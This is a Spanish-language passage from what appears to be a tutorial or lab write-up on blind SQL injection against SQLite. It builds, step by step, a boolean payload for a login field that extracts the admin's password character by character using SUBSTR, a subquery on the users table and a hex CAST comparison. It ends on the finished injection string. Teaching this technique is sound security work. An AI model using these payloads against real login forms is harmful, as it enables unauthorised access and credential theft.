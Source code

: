 A continuación vamos a introducir la contraseña del admin como una cadena en la función `SUBSTR`.

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">(SELECT password FROM users LIMIT 0,1)</code></pre>
  </div>
</div>

Lo que hace `LIMIT` es limitar la cantidad de datos devueltos por `SELECT` .

Quedando de la manera:
<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">SUBSTR((SELECT password FROM users LIMIT 0,1)1,1)</code></pre>
  </div>
</div>

Ahora vamos a necesitar realizar la comparación entre caracteres para ver si es o no, pero como las contraseñas pueden tener mayúsculas y minúsculas vamos a traducirlas a hexadecimal.
<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'</code></pre>
  </div>
</div>

Siendo ‘t’ (0x74) y ‘T’(0x54).

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)</code></pre>
  </div>
</div>

Ahora hacemos uso de `CAST` para convertir la representación hexadecimal a un tipo de datos de texto en SQLite, además le añadimos los dos guiones para comentar el campo de la contraseña:

<div style="text-align:center;">
 <div class="code-container">
    <div class="code-header">
      SQL
      <button class="copy-button" onclick="copyToClipboard()">Copiar</button>
    </div>
    <pre><code class="language-sql">admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -</code></pre>
  </div>
</div>
Siendo esta la petición que finalmente hará la base de datos:
